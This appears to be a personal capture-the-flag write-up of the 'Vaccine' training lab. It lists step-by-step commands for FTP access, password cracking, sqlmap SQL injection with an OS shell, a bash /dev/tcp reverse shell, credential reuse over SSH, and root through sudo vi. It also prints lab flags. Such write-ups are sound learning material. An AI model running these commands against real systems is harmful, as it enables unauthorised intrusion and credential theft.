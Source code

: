 
### **Starting Labs**

##### **Section 3:**
###### Vaccine:
		 --website enum--
```	    nmap -sC -sV {ip}
		

		    ftp {ip}
			anonymous/{no pass}
			get backup.zip
			quit

		
		 zip2john backup.zip > hashes

		 gzip -d rockyou.txt.gz

		 john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```
	
```
		john --show hashes
```

			note password was 741852963, it will be in the following format bellow.
			
			back.zip:{passwd}::...
			
			
```
		unzip backup.zip 
			enter password$:741852963
			
```
		unzips files:
		
		 cat index.php
					 there is a section that specifys that a password has to be                          equal to something when its md5 encrypted.
					 
				md5(passwd)==="2cb42f8734ea607eefed3b70af13bbd3"
		 
```
		 hashid 2cb42f8734ea607eefed3b70af13bbd3
		
		 echo '2cb42f8734ea607eefed3b70af13bbd3' > hash
		
		hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```
			
			after decrypting it qwerty789 is our password.
			2cb42f8734ea607eefed3b70af13bbd3:qwerty789

		now that we have the website password we can login through webpage using             these credentials.
		
		user: admin
		password: qwerty789
		
		
		---Establishing foothold via Dashboard search ---
		search bar only useful thing.
		so we use sql map with our cookies which we got using inspect element.
		
		Get sql map and find vulnerabilities:
```
		sqlmap -u 'http://{ip}/dashboard.php?search=' --cookie="PHPSESSID=4t35be7jpviob87fi0crbl04o7"
```
		
		We found that the search bar is vulnerable so we add a os shell to our cmd
		
```
		sqlmap -u 'http://10.129.95.174/dashboard.php?search=' --cookie="PHPSESSID=4t35be7jpviob87fi0crbl04o7" --os-shell
```

		now we need to find our own  ip for the shell we are trying to use so we open a new bash terminal.
		in new terminal:
```
HOSTNAME -I

Sudo nc -lvnp 1234
```

go back to old terminal:

```
bash -c "bash -i >& /dev/tcp/{your_IP}/{port} 0>&1"
```
after establishing the shell, we enter the following:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

After looking through some directories we find user.txt file in '/var/lib/postgresql/'


			cat user.txt
		
		**>>ec9b13ca4d6229cd5cc1e09980965bf7**
		
that is our user flag which we will need to submit after we are done with the lab.

we continue digging and searching other directories, after going back a few directories we find the /var/www directory which has the website pages. 

we find a few files and after reading a few of them using ```cat ``` we find the following line in "dashboard.php"

```
try {
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres
password=P@s5w0rd!");
}
```

We can see that the postgres password is listed as ``
```P@s5w0rd!```. So we can use this to login via ssh which will give us a more stable shell as opposed to using os-shell and spawning our own bash terminal. 

we can now connect via SSH 

```
ssh postgres@{ip}
```

and then enter the password ``` P@s5w0rd!``` .

after running ```sudo -l``` to get the permissions we have this is the output:

```
postgres@vaccine:/$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

```

the following line at the end of the output 
```  
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
signifies we have sudo access to run  
```
/bin/vi 
```
on 
```
/etc/postgresql/11/main/pg_hba.conf
```

so to check the file we run the command
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

after opening the vi file we can type in the following command to set the shell and then run it:
```
:Set shell=/bin/sh

:shell
```
since we ran the shell with sudo privileges we now have root access, we can verify this by typing ```
```
whoami
```
we should get "root" in the response.

![[VqKjp5f.png]]

after verifying we are root, we can look at the directory we are in and try to navigate the the root folder we saw earlier
```
cd root

ls 

cat root.txt
```
after reading the root file we get the root flag:
```
dd6e058e814260bc70e9bbdef2715849
```


Now we have the user and root flag:
User: ec9b13ca4d6229cd5cc1e09980965bf7
Root: dd6e058e814260bc70e9bbdef2715849

-------

###### Unified:

---website enum---
